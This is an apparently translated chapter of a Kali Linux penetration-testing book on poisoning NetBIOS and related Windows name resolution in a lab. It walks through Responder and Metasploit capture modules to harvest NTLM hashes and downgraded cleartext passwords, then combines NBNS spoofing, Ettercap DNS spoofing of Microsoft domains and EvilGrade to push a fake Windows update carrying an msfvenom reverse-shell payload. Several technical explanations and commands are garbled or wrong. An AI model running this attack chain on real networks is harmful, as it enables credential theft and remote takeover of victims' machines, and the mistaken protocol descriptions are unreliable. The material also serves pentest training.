# NetBIOS 名称服务和 LLMNR-过时但仍然致命

在本章中，你将学习如何利用那些遗留的专有和破损的协议，它们仍然挂在几乎每个网络上，以你的优势，并获得你想要的访问权限。这是博最喜欢的攻击向量，他最喜欢的*低悬果实*，通常会导致对域和与该域相关的每个帐户的*完全控制*。在一年的时间里，最有可能有 80%的史诗级失败测试结果来自这种攻击向量的某种利用方式。

为什么我首先攻击的机器是 Windows 系统？答案是：NetBIOS，LLMNR，NTML 和 SMB 协议。

在本章中，我们将涵盖以下主题：

+   NetBIOS 名称服务和 NTLM

+   嗅探和捕获流量

# 技术要求

要跟着本章学习，你需要以下内容：

+   运行 Kali Linux 的副本

+   几个 Windows 操作系统（在虚拟机上运行这些系统也可以）

# NetBIOS 名称服务和 NTLM

在网络的早期，就在个人电脑诞生之后，人们希望能够从一个系统共享文件到另一个系统。在商业应用中，系统已经可以使用专有的网络协议进行网络化，比如 IPX（Internetwork Packet Exchange），托尔金环和同轴总线网络。所有这些专有协议的一个大问题是，它们都不能在它们之间进行交叉通信。这被称为供应商锁定，即使在今天，我们仍然有一些专有系统和协议。（是的，我在指责你，微软。）使用这些协议意味着为网络上的每个系统支付许可费-不仅是操作系统的成本，而且还需要额外的费用来网络化每个系统，然后在连接到网络的每个工作站上再额外收费。然后，是的，你可以让两个远离彼此的网络使用当时的电话线连接起来，但是系统必须运行相同的操作系统和网络协议才能进行通信。DEC 网络甚至不能在同一建筑物内与 Netware 网络进行通信，更不用说通过电话线进行通信了。这也是政府和军方所面临的问题，跨国通信和数据传输时代的到来，电话呼叫通过许多单点故障路由，没有办法使这些流量自行路由。通信网络可以通过打击一些战略要点而被关闭。需要一个自路由网络和一个共同的通信语言，于是 ARPANET 和 TCP/IP 协议套件出现了。我很幸运能在开始时参与其中，我从来没有想过它会发展成今天的样子。

在这段时间里，微软推出了他们自己的协议来网络 Windows 系统，但是，这些协议是专有的，只能在 Windows 系统上运行。其中第一个是 NetBUI。NetBUI 是一种不可路由的协议，几乎不需要配置，连接到同一个本地交换机或集线器的系统可以进行通信并愉快地共享文件和数据；然而，如果你想要在城镇之间发送文件，那么最好准备一个软盘。如果你在本地网络上有一个 UNIX 系统，你还需要软盘来将数据从你的 Windows PC 传输到 UNIX 服务器。NetBUI 只能在 Windows 上运行！当然，它很容易使用-你不需要成为网络工程师来连接到网络，你只需要插上你的电缆，通过知道其他计算机的名称，你就可以连接到它们共享文件，删除文件，甚至远程控制系统。哇，太酷了！除了，在那些日子里，Windows 没有安全性-没有。

记住，这是作为一个独立的个人电脑出售的，一个可以通过观察谁坐在电脑前的椅子上来控制安全性的系统。没有登录，没有用户帐户，没有 ACL，只是对本地网络上每个系统的开放和无限制访问。好吧，你正在读这本书，因为你要么在互联网安全领域工作，要么对此感兴趣，所以这里有一个课堂问题给你。*你觉得这种网络模型有问题吗？*如果没有，请退还这本书并购买《Better Homes and Gardens》的一本副本-你会得到更好的服务。与 UNIX 不同，它是从头开始设计成一个网络化的操作系统，Windows 从一开始就没有为此设计，今天仍然受到这些不良开端的影响。

那么这个魔术是如何运作的呢？当你连接一个系统到网络时，系统会发送 ARP 广播，说，“嘿，我的计算机名是 WS3，我在这里存储了这些好东西。”一个系统，通常是网络上的第一个系统，会成为主浏览器，它会跟踪机器名和网络资源。如果这个系统崩溃了，那么网络上的所有系统都会通过 ARP 进行选举，决定谁将成为下一个主浏览器。现在，如果你的网络上有不到 20 台机器，那么这一切都很好，但是如果在同一个网络上有超过 20 台机器，那么你现在就会遇到一个通信问题，而且每增加一台额外的机器，这个问题都会变得更加严重。

还记得 Trumpet Winsock 吗？Trumpet Winsock 是你必须手动加载到 Windows 系统上并与 com 端口进行斗争才能使其工作的第三方软件。这是 Windows 的第一个 TCP/IP 网络堆栈。微软后来收购了 Winsock 的开发人员，他们的源代码成为了 Windows NT 内置的第一个版本的 Windows TCP/IP 接口的基础。（不，微软并没有发明 TCP/IP）。

我们都知道问题所在：使用这种方法意味着你可以访问网络上的所有内容。没有数据是安全的，任何系统上的窥视者或小偷都无法触及，而且使用这种方法，没有办法追踪谁在访问这些数据。此外，你可以在没有登录和任何凭据的情况下远程控制这个系统。是的-你可以运行`del C:\Windows\*`并完全破坏一台机器。此外，远程位置的系统无法与总部通信，因为 NetBUI 是不可路由的。所以，我们都知道这不会起作用。微软最终也意识到了这一点，于是 NetBIOS 出现了-这是一个改进，但不是一个修复。这也是微软从 IBM 那里偷走大卫·卡特勒的时候，他带着他从 IBM 的 OS2 中的设计，设计并构建了 Windows NT 的时候。（是的，NT 的爸爸是 OS2。）NT 被设计成一个带有文件级安全用户帐户和 ACL 的网络化操作系统。

一个真正的网络操作系统。它也在一定程度上符合可移植操作系统接口（POSIX），因此它可以在有限的范围内与基于 UNIX 的机器进行通信。他们必须获得政府合同，当时政府系统的要求是符合 POSIX 标准。在这里，我们再次遇到了供应商锁定-是的，NT 有一些有限的 API 被认为是符合 POSIX 标准的，看起来很不错，但在现实世界中从来没有起作用。在尝试让这些 API 起作用时，微软的解决方案是*购买更多的微软产品*。它还带有一个用于网络接口的 TCP/IP 堆栈。现在，我们可能会说，“现在我们准备好了”。嗯-不完全是这样。微软一如既往地把“易用性”放在首位-当然，简单易用是一件好事，但在安全性方面并不总是如此。想想如果你不用锁门并保管好钥匙，那么进入你的房子会有多容易。如果你的门上没有锁，你永远不会把自己锁在外面。

微软和类似公司希望获得你所有的业务，而不仅仅是其中的一部分，并且竭尽全力来破坏常见的协议。我们又回到了供应商锁定。当然，我们会使我们的系统易于使用并且易于连接到您为我们支付的其他系统，但是当涉及到与 UNIX 服务器通信时就不要想了。哦，你想访问文件服务器？那就购买我们的服务器，然后你的个人电脑就能够与服务器通信。因此，由于供应商锁定，我们被困在 NetBIOS 和 NTLM 服务中。

NTLM 的目的是在网络上查找系统和资源。在活动目录域环境中，Kerberos LDAP 和 DNS 负责登录和共享网络资源的位置。DNS 是 TCP/IP 套件的协议，用于此用途，并且是我们每天在互联网上使用的协议，用于查找我们要找的东西。Windows 确实使用 DNS 进行系统调用，但如果没有使用**完全合格的域名**（**FQDN**），那么 Windows 会默认回到 NTLM 进行系统查找。这就是我们的攻击向量：使系统查找恢复到 NTLM，因此信息现在通过 ARP 广播发送，而不是通过使用 TCP 或 UDP 直接调用 DNS 服务器来传输数据。

当用户尝试使用计算机名称连接到服务时，Windows 会查看以下内容以将名称解析为 IP 地址：

+   本地主机文件—`C:\Windows\System32\drivers\etc\hosts`

+   DNS

+   NBNS

你可能会问，名字查找是如何绕过 DNS 进行查找的？嗯，这是设计上的。Windows 可能在域中使用 DNS 进行查找，但系统仍然喜欢使用机器名称的缩写版本，或者它们的 NetBIOS 名称，因此机器将通过网络发送 ARP 广播。当使用 IP 地址访问网站时，也会发生这种情况，而不是使用域名。

域控制器默认情况下仍会接受此登录。因此，我的机器登录为`\\SRV1`而不是`//SRV1.companyname.net`。在这些广播数据包中包含了我的机器名称、IP 地址、用户名和密码，因此任何通过数据包嗅探器（如 Wireshark） passively 监听网络的人都可以轻松捕获这些凭据。稍微进行 ARP 欺骗，这些凭据就会在整个网络中不断出现，然后...

NTLM 仍然在以下情况下使用：

+   客户端正在使用 IP 地址对服务器进行身份验证

+   客户端正在对属于具有传统 NTLM 信任而不是传递性跨森林信任的不同活动目录森林的服务器进行身份验证

+   客户端正在对不属于域的服务器进行身份验证

+   不存在活动目录域（通常称为工作组或点对点）

+   防火墙本来会限制 Kerberos 所需的端口（通常是 TCP 88）

基本上，NTLM 就像在拥挤的酒吧中大声喊出你的用户名和密码，而 AD/DNS 更像是两个人之间的悄悄交谈。

# 嗅探和捕获流量

在本节中，我们将看到我们在第四章中学到的内容的实际用途，即*嗅探和欺骗*，关于嗅探和捕获工具。当我们在[第四章](https://cdp.packtpub.com/kali_linux_2018_x__windows_penetration_testing_/wp-admin/post.php?post=332&action=edit#post_162)中运行这些工具时，我们捕获了 NTLM 和明文密码。我们还找到了主要目标的位置。在这里，我们将使用从我们劳动成果中获得的黄金密钥。通常，第一次捕获哈希并查看它时，你会想，*我能用它做什么？它是加密的*。毕竟，你不是被告知，如果它被加密了，那么它就受到了保护吗？事实是，当我侵入 Windows 系统时，有一半以上的时间我并不知道实际密码。为什么要花时间破解密码，当你可以直接*传递哈希*呢？

# 使用 Ettercap 数据

以下的屏幕截图是我们在[第四章](https://cdp.packtpub.com/kali_linux_2018_x__windows_penetration_testing_/wp-admin/post.php?post=332&action=edit#post_162)中的中毒攻击的捕获数据的副本，*嗅探和欺骗*，使用 Ettercap：


# 使用 NBTscan 进行 NetBIOS 扫描

在 Windows 域环境中工作时，您最好知道您正在攻击的域名。有时，您可以使用默认的`WORKSTATION`组收集一些凭据，但是这个方便的小工具可以快速找到您要查找的域信息。以下是 NBTscan 的帮助文件：

要从命令行获取帮助文件，请输入以下内容：

```
nbtscan 
No -h or -help is needed. 
NBTscan Help File 
NBTscan version 1.5.1\. Copyright (C) 1999-2003 Alla Bezroutchko. 
This is a free software and it comes with absolutely no warranty. 
You can use, distribute and modify it under terms of GNU GPL. 

Usage: 
nbtscan [-v] [-d] [-e] [-l] [-t timeout] [-b bandwidth] [-r] [-q] [-s separator] [-m retransmits] (-f filename)|(<scan_range>)  
 -v  verbose output. Print all names received 
   from each host 
 -d  dump packets. Print whole packet contents. 
 -e  Format output in /etc/hosts format. 
 -l  Format output in lmhosts format. 
   Cannot be used with -v, -s or -h options. 
 -t timeout wait timeout milliseconds for response. 
   Default 1000\. 
 -b bandwidth Output throttling. Slow down output 
   so that it uses no more that bandwidth bps. 
   Useful on slow links, so that outgoing queries 
   don't get dropped. 
 -r  use local port 137 for scans. Win95 boxes 
   respond to this only. 
   You need to be root to use this option on Unix. 
 -q  Suppress banners and error messages, 
 -s separator Script-friendly output. Don't print 
   column and record headers, separate fields with separator. 
 -h  Print human-readable names for services. 
   Can only be used with -v option. 
 -m retransmits Number of retransmits. Default 0\. 
 -f filename Take IP addresses to scan from file filename. 
   -f - makes nbtscan take IP addresses from stdin. 
 <scan_range> what to scan. Can either be single IP 
   like 192.168.1.1 or 
   range of addresses in one of two forms:  
   xxx.xxx.xxx.xxx/xx or xxx.xxx.xxx.xxx-xxx. 
Examples: 
 nbtscan -r 192.168.1.0/24 
  Scans the whole C-class network. 
 nbtscan 192.168.1.25-137 
  Scans a range from 192.168.1.25 to 192.168.1.137 
 nbtscan -v -s : 192.168.1.0/24 
  Scans C-class network. Prints results in script-friendly 
  format using colon as field separator. 
  Produces output like that: 
  192.168.0.1:NT_SERVER:00U 
  192.168.0.1:MY_DOMAIN:00G 
  192.168.0.1:ADMINISTRATOR:03U 
  192.168.0.2:OTHER_BOX:00U 
  ... 
 nbtscan -f iplist 
  Scans IP addresses specified in file iplist. 
```

如果您首先运行 Ettercap，则目标列表将为您提供一些地址，以便快速查找域信息，或者您可以使用此工具通过使用 CIDR 网络列表扫描整个本地子网。对于此网络，将是`172.16.42.0/24`：



现在我们有了域名（`LAB1`）或工作组名，我们可以继续使用 Responder。 

# Responder-哈希如此之多，时间如此之少

**Responder.py**是一个攻击几乎所有 NTLM 和 SMB 协议向量的 Python 工具。在下面的屏幕截图中，我们有 Responder 帮助文件。我们将介绍一些选项及其用途。

要从命令行访问 Kali Linux 上的 Responder 帮助文件，请输入以下内容：

```
responder -help  
```



您将不得不使用的主要标志是`-I`或`-interface=`标志，因为您必须告诉 Responder 使用哪个接口。所有其他标志都是可选的，但这些标志可以对您的攻击进行很好的控制。

Responder 带有自己的密码和哈希收集工具，但我们也可以使用 Metasploit 来捕获我们的战利品，以便我们可以使用这些凭据在使用 Metasploit 模块进行进一步攻击。我们将介绍收集捕获凭据的两种方法。

首先，我们将设置 Responder 执行其自己的操作并收集其自己的哈希。首先是`-I`标志-将其设置为活动接口。在这里，它将是`wlan0`。这是最重要的标志。Responder 将在没有设置任何其他标志的情况下运行默认配置，但必须设置接口才能运行。在下面的命令中，我还设置了`-w`以启动`wpad`服务器；`-F`标志以强制在`wpad`服务器上进行基本身份验证，这将以明文捕获和`wpad`登录；尝试将 NTLM 身份验证降级为 NTLMv1 的`-lm`标志；将 NTLM HTTP 连接降级为基本或明文的`-b`标志；将`wpad`连接重定向的`-r`标志；以及将域设置为攻击的`-d LAB1`标志。然后按*Enter*运行。然后，您将获得正在运行的服务的屏幕打印，并且攻击将开始。完整的命令如下：

```
responder -I wlan0 -w -F --lm -b -r -d LAB1  
```

攻击开始后，Responder 会在网络上中毒 SMB ARP 广播。运行此攻击的最佳时间是在网络上有大量用户流量时。如果在非工作时间运行此攻击，并且没有用户流量，则只会捕获系统帐户。必须有用户流量才能捕获用户凭据。

在下面的屏幕截图中，我们看到了中毒攻击的开始以及对管理员帐户凭据的捕获：



在前面的截图中，我们可以看到我们已经从`\\WIN10-01`工作站捕获了管理员登录。这是在用户从工作站登录到域时捕获的。请注意，这是一个 NTLMv2 哈希，这是一个带盐的 NTLMv1 哈希。带盐的哈希基本上是重新哈希的哈希。在 SMB 登录的挑战和响应部分期间，交换了一个 16 位的随机哈希值。然后，NTLMv1 56 位哈希值与此随机值进行了哈希。然后将这个新的哈希传输到服务器，这就是 NTLMv2 哈希值。由于盐是一个随机值，捕获的 v2 哈希是不可重放的，但好消息是，诸如老实的 John the Ripper 或 Hashcat 之类的程序可以离线破解这些哈希。它们只是不能用于*传递哈希*风格的攻击。

在下面的截图中，我们有`LAB1\rred`的登录。同样，这是用户登录到域的情况，再次捕获了不可重放的 NTLMv2 哈希。在两次捕获之后，您会注意到，几行下面，Responder 再次捕获了登录，但没有在屏幕上重复显示。它仍然作为单独的哈希记录在日志文件中。在日志文件中，您可以看到挑战和响应哈希从文件中的不可重放的更改。实际密码没有改变，但在响应之间，挑战和响应哈希已经改变：



在下面的截图中，我们可以看到发送到网络上各台机器的有毒答案。接下来，我们可以看到 HTTP 捕获。这个捕获来自将-b 标志设置为将 HTTP 登录降级为明文，而不是使用 NTLM 哈希作为密码。正如我们所看到的，我们有一组明文用户凭据。中奖！看一下下面的截图：


在我们的小攻击之后，让我们看看日志。攻击的所有屏幕输出都存储在 Responder 的日志目录中的单独文件中。默认情况下，这可以在`/usr/share/responder/logs`找到：



在前面的截图中，我们看到了攻击期间输出的各种日志。Responder 非常好地将这些数据分解为可用的部分。

在此运行中，`Analyzer-Session.log`是空白的。当您运行`-A`标志时，NBT-NS 响应的原始输出将保存到此文件中。

`Config-Responder.log`文件是在运行 Responder 时攻击期间使用的配置和变量的输出。

`Poisoners-Session.log`是有毒会话的会话输出。

`HTTP-Basic-ClearText-<IPAddress>.txt`文件是从`<IPAddress>`捕获的凭据的输出。每个系统的捕获凭据都保存在单独的文件中。我们可以在下面的截图中看到我们攻击中列出的两个文件：


`SMB-NTLMv2-<IPAddress>.txt`文件是捕获的不可重放的哈希和用户帐户。该文件格式为所谓的*John*格式。这意味着 John the Ripper 可以直接读取文件而无需任何额外格式。Hashcat 和大多数其他密码破解程序也可以读取这些文件而无需问题。在运行攻击时，输出显示了重复的捕获，但没有显示捕获的哈希。在下面的截图中，我们可以看到所有捕获的哈希。请注意，每次捕获时哈希值都不相同，但密码没有改变。这就是盐在起作用：


在通过您选择的密码破解程序运行之前，删除文件中除一个条目之外的所有内容。这将缩短运行时间，因为破解程序不必运行所有不同的盐。

# 使用 Responder 与 Metasploit

现在我们将使用 Responder 并将捕获发送到正在运行的 Metasploit 模块。这样，凭据将保存到 Metasploit 数据库，并且在运行 Metasploit 的攻击时可以使用捕获的凭据。基本上，我们要做的是禁用 Responder 工具包中提供的捕获服务器，并使用 Metasploit 的捕获服务器运行相同的服务器。

要禁用 Responder 的服务器，我们将编辑 Responder 配置文件。文件位于`/etc/responder/Responder.conf`。在您喜欢的文本编辑器中打开文件。在文件顶部，您会看到服务器列表，配置设置为`On`-将这些设置更改为`Off`并保存文件：


更改后的文件如下截图所示：



接下来，我们需要启动 Metasploit 并启动捕获服务器。要启动 Metasploit，请运行以下命令：

```
msfdb start # This will start the database.
msfconsole # This will start the console.  
```

让我们启动服务器。启动顺序在这里并不重要，但是这些服务器是您进行此攻击所需的三个重要组成部分。在切换到您的工作区后，运行以下命令：

```
use auxiliary/server/wpad # This set up the wpad module for use.
show options # This will show the options.  
```


我发现最好设置`SRVHOST`设置。将其保持为`0.0.0.0`将使服务器在列出的端口上监听所有接口。硬设置`SRVHOST`将减少任何网络/接口混乱。特别是如果您运行多个活动接口，攻击可能会困惑于应该选择哪种方式，或者诸如`wpad`之类的服务将主动监听错误的接口。最好进行硬设置以确保。对于此攻击，本地 IP 地址为`172.16.42.139`：

```
set SRVHOST 172.16.42.139
```

要启动它，请运行以下命令：

```
    run -j # The -j flag will run the job in the background.

```

接下来，让我们使用以下命令启动 SMB 捕获服务器：

```
use auxiliary/server/capture/smb
show options  
```


再次设置`SRVHOST`。您可以使用向上箭头键返回到上次设置的属性：

```
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
```

有两种方法可以捕获 HTTP 流量。一种是`auxiliary/server/capture/http_ntlm`模块。此模块将以其 NTLM 哈希值捕获凭据。这些哈希值将是可重放的，因为我们的攻击服务器发送了挑战。之前定义了挑战盐值-我们看到它设置为`1122334455667788`。此攻击中捕获的哈希值可以在* Pass the Hash * -style 攻击中使用。要设置和运行此模块，请运行以下命令：

```
use auxiliary/server/capture/http_ntlm
show options  
```



再次设置`SRVHOST`。您可以使用向上箭头键返回到上次设置的方式：

```
set SRVHOST 172.16.42.139  
```

由于`wpad`服务器正在端口`80`上运行，我们需要将此服务移动到不同的 HTTP 端口，因此我们将设置它在端口`443`上运行，并将 SSL 设置为 true，如下所示：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set JOHNPWFILE john-cap.txt # This will set an output file.
run -j # Again this will run the job in the background
```

第二种方法将导致 NTLM 登录降级为明文，就像 Responder 附带的 HTTP 服务器一样。使用此捕获方法，凭据将准备好使用。您一次只能使用其中一个模块。尝试同时运行两者将导致第二个崩溃，并有时会导致第一个 HTTP 服务器开始挂起。

要设置并启动 HTTP 基本捕获服务器，请运行以下命令：

```
use auxiliary/server/capture/http_basic
show options  
```


再次设置`SRVHOST`。您可以使用向上箭头键返回到上次指定的设置。

如前所述，由于`wpad`服务器正在端口`80`上运行，我们需要将此服务移动到不同的 HTTP 端口，因此我们将设置它在端口`443`上运行，并将 SSL 设置为 true：

```
set SRVPORT 443 # Set to local service port to 443
set SSL true # This sets a self-signed cert to the port.
set SRVHOST 172.16.42.139
run -j # Again this will run the job in the background
jobs # Below we see the three running jobs.  
```



我们还可以运行欺骗程序来帮助捕获。这是`auxiliary/spoof/nbns/nbns_response`模块。帮助文件中有关于此的最佳描述，因此我在这里提供了它：

描述：

这个模块伪造**NetBIOS 名称服务**（**NBNS**）响应。它将监听发送到本地子网广播地址的 NBNS 请求，并伪造响应，将查询机器重定向到攻击者选择的 IP。与`auxiliary/server/capture/smb`或`auxiliary/server/capture/http_ntlm`结合使用，这是一种高效收集常见网络上可破解哈希的方法。此模块必须以 root 身份运行，并将绑定到所有接口上的 UDP/137 端口。

参考：

[`www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html`](http://www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html)

对于我们的攻击，我们将欺骗域控制器。域控制器的 IP 地址是`172.16.42.5`。因此，让我们设置我们的欺骗者并运行如下：

```
use auxiliary/spoof/nbns/nbns_response
set INTERFACE wlan0 # your local network interface. For this attack it is wlan0
set SPOOFIP 172.16.42.5 # the victim IP address.
run -j # This will run the job in the background.
```

我们可以在一开始就看到模块正在欺骗来自`172.16.42.105`的`wpad`请求，而此时 Responder 尚未运行。


现在我们准备再次启动 Responder。在 Kali 上启动一个新的终端窗口，并使用与上次相同的标志启动 Responder。这次运行的唯一区别是，中毒攻击将运行，但 Responder 服务器将被禁用，Metasploit 将捕获这次的流量。

在以下截图中，我们看到 Metasploit 在`172.16.42.105`上欺骗和捕获流量。我们可以看到模块响应到域控制器的地址`172.16.42.5`：


在以下截图中，我们看到捕获的 SMB 流量进来，通过查看挑战的长度，我们可以知道这些是 NTLMv2 哈希。如果运行`creds`命令，输出将显示这些是不可重放的：


通过运行`creds`命令，我们可以看到捕获的凭据，如下所示：


好的，这些是不可重放的哈希，但我们有一个普通捕获流量中没有的部分谜题，比如我们使用 Responder 服务捕获的内容。这次，我们有挑战盐。当我们设置 SMB 捕获模块时，挑战盐设置为`1122334455667788`。因此，如果我们通过 John the Ripper 运行这个不可重放的哈希，以及捕获的有盐哈希，我们基本上只是破解 NTLM 哈希，而不是浪费 CPU 时间计算盐。在上一张截图中，输出是以 John 格式显示的，我们可以在哈希的第一部分中看到挑战盐。这基本上破坏了有盐哈希的安全性。

# NetBIOS 响应 BadTunnel 暴力欺骗

这也是一个 NBNS 名称欺骗者，但与之前讨论的不同，这个可以穿越使用 NAT 的防火墙连接。大多数 NetBIOS 欺骗者只在本地网络上工作。与其他工具一起使用，这是一个很好的欺骗者。

关于这个欺骗者如何工作的最好描述来自信息文件，如下所示：

```
   Name: NetBIOS Response "BadTunnel" Brute Force Spoof (NAT Tunnel) 
  Module: auxiliary/server/netbios_spoof_nat 
  License: Metasploit Framework License (BSD) 
   Rank: Normal 
 Disclosed: 2016-06-14 

Provided by: 
 vvalien 
 hdm <x@hdm.io> 
 tombkeeper 

Available actions: 
 Name  Description 
 ----  ----------- 
 Service  

Basic options: 
 Name  Current Setting Required Description 
 ----  --------------- -------- ----------- 
 NBADDR 172.16.42.139  yes   The address that the NetBIOS name should resolve to 
 NBNAME WPAD      yes   The NetBIOS name to spoof a reply for 
 PPSRATE 1000      yes   The rate at which to send NetBIOS replies 
 SRVHOST 172.16.42.139  yes   The local host to listen on. 
 SRVPORT 137       yes   The local port to listen on. 

```

描述：

该模块监听 NetBIOS 名称请求，然后不断向目标发送 NetBIOS 响应，以获取给定主机名的恶意地址。在高速网络上，PPSRATE 值应增加以加快攻击速度。例如，当欺骗 WPAD 查找时，约 30,000 的值几乎 100%成功。远程目标可能需要更多时间和更低的速率才能成功攻击。该模块在目标位于 NAT 网关后时起作用，因为 NetBIOS 响应流将在初始设置后保持 NAT 映射活动。要触发对 Metasploit 系统的初始 NetBIOS 请求，强制目标访问指向相同地址的 UNC 链接（HTML、Office 附件等）。这个 NAT 穿透问题被发现者命名为 BadTunnel 漏洞，发现者是 Yu Yang（`@tombkeeper`）。微软补丁（MS16-063/MS16-077）影响了代理主机（WPAD）主机的识别方式，但并没有改变 NetBIOS 请求的可预测性。

为了设置这个模块，我们需要设置以下参数：

```
set NBADDR 172.16.42.139 # Set to the update server's address. Our Kali machine.
set SRVHOST 172.16.42.139 # Set this to keep down interface confusion.
set PPSRATE 30000 # Since we are on a local network we have set this to the max setting.  
```

一旦我们设置并运行了 EvilGrade，我们将运行以下命令：

```
run -j  # This will run the spoofer in the background.  
```

现在我们已经设置好了 NBNS 欺骗器，让我们设置好 EvilGrade 并让它运行起来。

# EvilGrade

EvilGrade 是一个模块化框架，允许用户通过注入假更新来利用升级实现，不仅适用于 Windows 操作系统，还适用于其他流行的 Windows 应用程序。列表很长。该框架配备了预制的二进制文件（代理），但也可以将自定义二进制文件推送到受害者机器上。该框架配备了自己的 Web 服务器和 DNS 服务器模块。

在这次攻击中，我们将利用 Windows 的`wpad`服务并推送一个恶意的 Windows 更新。我们将构建自己的有效负载，而不是使用预先构建的二进制文件，这样我们就可以上传 Metasploit Meterpreter shell 到受害者机器。这样我们就可以使用 Metasploit 工具进行进一步的妥协。

EvilGrade 不是 Kali 的默认安装程序，因此我们需要从存储库安装它。因此，在保持 BadTunnel 窗口打开的同时，现在打开一个新的终端窗口并运行以下命令：

```
apt-get update # As normal update the repo first.
apt-get -y install isr-evilgrade # This will install Evilgrade.  
```

安装完成后，我们准备好了。打开一个新的终端窗口，从命令行输入以下内容：

```
evilgrade
```

您将看到以下输出。当它们加载时，您将看到可用模块的列表。该框架具有类似于 Metasploit 的界面：



以下屏幕截图显示了`modules`输出的继续：



通过运行`show options`，我们可以看到模块列表。注意所有不同类型应用程序的模块，包括硬件供应商的更新服务。是的，你可以上传 rootkit 到，比如，宏碁或联想笔记本电脑。这超出了本书的范围，但通过一点配置，就像我们在这里所做的一样，这个工具就能胜任：

```
evilgrade> show modules 

List of modules: 
=============== 

acer 
allmynotes 
amsn 
appleupdate 
appstore 
apptapp 
apt 
asus 
atube 
autoit3 
bbappworld 
blackberry 
bsplayer 
ccleaner 
clamwin 
cpan 
cygwin 
dap 
divxsuite 
express_talk 
fcleaner 
filezilla 
flashget 
flip4mac 
freerip 
getjar 
gom 
googleanalytics 
growl 
inteldriver 
isopen 
istat 
itunes 
jdtoolkit 
jet 
jetphoto 
keepass 
lenovo 
lenovoapk 
lenovofirmware 
linkedin 
miranda 
mirc 
nokia 
nokiasoftware 
notepadplus 
openbazaar 
openoffice 
opera 
orbit 
osx 
paintnet 
panda_antirootkit 
photoscape 
port 
quicktime 
safari 
samsung 
skype 
sparkle 
sparkle2 
speedbit 
sunbelt 
sunjava 
superantispyware 
teamviewer 
techtracker 
timedoctor 
trillian 
ubertwitter 
vidbox 
virtualbox 
vmware 
winamp 
winscp 
winupdate 
winzip 
yahoomsn 
- 78 modules available. 
```

安全提示：

这是 Windows 系统上的一个重要攻击向量。与 Linux 不同，Linux 中所有软件包都可以从中央存储库下载并通过 GPG 密钥进行验证，而 Windows 应用程序中的每个应用程序都依赖于其自己的更新程序。这使得这种攻击方式可以用于许多常见应用程序，这些应用程序通常不会被视为攻击向量。这也是为什么在使用本书中所示的 Kali 时，应该从存储库下载应用程序，避免从其他网站下载和安装单独的应用程序。

我们需要为 DNS 服务设置 IP 地址。输入以下命令：

```
show options # Shows EvilGrade's default settings.
set DNSAnswerIp 172.16.24.139 # Set the DNS server's address.     
```



在这次攻击中，我们将使用 Windows 更新服务（wpad），因此要加载 Windows 更新模块，请输入以下内容：

```
evilgrade>configure winupdate 
```

接下来，我们需要我们的有效载荷。要构建有效载荷，我们将使用 MSFvenom。打开一个新的终端窗口，然后从命令行中输入以下代码。`-p`标志是要使用的有效载荷。我们正在使用`windows/meterpreter/reverse_tcp`有效载荷。由于这是一个反向 shell，您必须设置有效载荷在攻击机器上调用的本地主机和本地端口。我们的 Kali 机器在`172.16.42.139`。

我们将端口设置为`445`，这是一个标准的 Windows 端口，并使用`-o`标志将其保存到`/tmp/windowsupdate.exe`：

```
msfvenom -p windows/meterpreter/reverse_tcp -e LHOST=172.16.42.139 LPORT=445 -f exe -o /tmp/windowsupdate.exe 
```


我们已将有效载荷保存到`/tmp/windowsupdate.exe`，因此我们需要将代理设置为此路径。

在运行的 EvilGrade 框架窗口中，输入以下内容将有效载荷设置为我们的自定义有效载荷：

```
set agent /tmp/windowsupdate.exe # This sets the agent to the custom agent.
show options # This will show the module's options to check the settings.
start # This will start both the DNS and Web service for the attack.  
```



现在，为了允许连接，我们需要设置一个 multi/handler 来接受系统被入侵后的入站连接。从我们正在运行 BadTunnel 的 Metasploit 终端开始，我们将启动`multi/handler`并在后台运行。在 Metasploit 中，运行以下命令：

```
use exploit/multi/handler
set LHOST 172.16.42.139 # Kali's IP address.
set LPORT 445 # Set the listening port. The payload is set to 445.
run -j # Start the handler in the background.  
```


# Ettercap 设置

Ettercap 是一个很棒的欺骗工具，在本书中我们已经经常使用它，现在我们将再次使用它。我们需要欺骗 DNS 服务并将其指向我们的 Kali 框。Ettercap 附带了一个专门用于此目的的插件。在这次攻击中，由于我们的 Kali 框局限于受害者网络，我们可以使用 GUI 版本。您会在 Sniffing & Spoofing | ettercap-graphical 下找到它。该过程如下：

1.  首先，我们需要设置我们将在欺骗时使用的 DNS A 记录。如果这是您第一次欺骗 DNS，您需要使用您喜欢的文本编辑器创建一个新文件。将以下 A 记录添加到文件中。通过通配符记录（`*.`），我们应该是好的，如下所示：

```
*.microsoft.com  A 172.16.42.139 # Kali's address
*.windowsupdate.com  A 172.16.42.139  
```

将此文件保存到`/usr/share/ettercap/etter.dns`。关闭编辑器-您的欺骗记录已准备就绪：


1.  接下来，我们需要设置活动接口来欺骗流量，如下所示：



1.  接下来，我们需要激活 DNS 欺骗插件。在菜单栏中，转到插件，然后管理插件。这将为您提供列出所有各种可用插件的窗口：


1.  接下来，从列表中选择 dns_spoof 并双击它。左侧将出现一个星号，表示它已激活。您还将在 Ettercap 底部的文本窗口中看到这一点：



1.  接下来，让我们运行扫描以找到我们的目标，如下所示：



扫描后，我们需要将路由器选为目标 1，将我们的目标机器（`win7-01`）选为目标 2。您可以通过选择地址并右键单击来执行此操作-菜单将允许您设置目标编号：


选择目标后，您可以通过转到菜单栏中的目标|当前目标来查看它们。要启动该过程，请转到菜单栏中的 Mitm | ARP Poisoning 并单击。您将获得一个框来设置嗅探的类型。一旦开始，您可以在底部屏幕中观看输出，如下所示：


# 攻击

我们现在已经设置好了，我们的攻击已经完全运行。我们正在运行 BadTunnel NBNS 欺骗的 Metasploit，EvilGrade 同时运行 DNS 服务器和 Web 服务器以提供带有虚假 Windows 更新站点的更新。我们还为有效载荷设置了处理程序以进行连接。现在我们只是在等待我们毫无戒心的受害者更新他们的 Windows 系统。

在 Windows 工作站上，当受害者使用 IE 手动更新他们的系统时，他们会看到以下页面。看起来很正常-你可以看到地址栏中的地址说这个站点是[`www.microsoft.com`](http://www.microsoft.com)。没有真正的警告标志表明这不是微软的站点。

所以，让我们点击更新我们的计算机！你知道要保持安全和安全：



我们点击“立即下载并安装”按钮，我们得到一个正常的文件下载框，提供一个`update97543.exe`文件。甚至看起来是由`windowsupdate.microsoft.com`签名的。这个文件肯定是合法的吧？

让我们点击运行并获取我们的更新：


